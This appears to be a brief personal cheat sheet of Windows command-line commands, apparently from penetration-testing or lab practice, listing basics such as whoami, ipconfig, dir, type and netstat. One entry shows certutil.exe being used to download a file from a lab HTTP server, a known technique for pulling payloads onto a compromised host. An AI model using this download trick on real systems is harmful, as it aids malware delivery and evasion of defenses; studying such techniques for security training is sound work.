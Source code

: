STARTS WITH >

`whoami`
`hostname`
`ipconfig`
`dir`
	display all info: `ipconfig /all

clear:
`cls

equivalent of cat:
`type [file]

equivalent of locate:
`dir [filename] /s`

dump configuration information or files
`certutil`
or
`certutil.exe`

uploading a file using certutil.exe from an http server
`certutil.exe -urlcache -split -f http://10.10.14.20:8080/[file]

rename a file
`ren [filename] [newfilename]`

start a file
`start [filename.exe]`

display protocol statistics and TCP/IP network connections
`netstat`

open windows update
`control /name Microsoft.WindowsUpdate



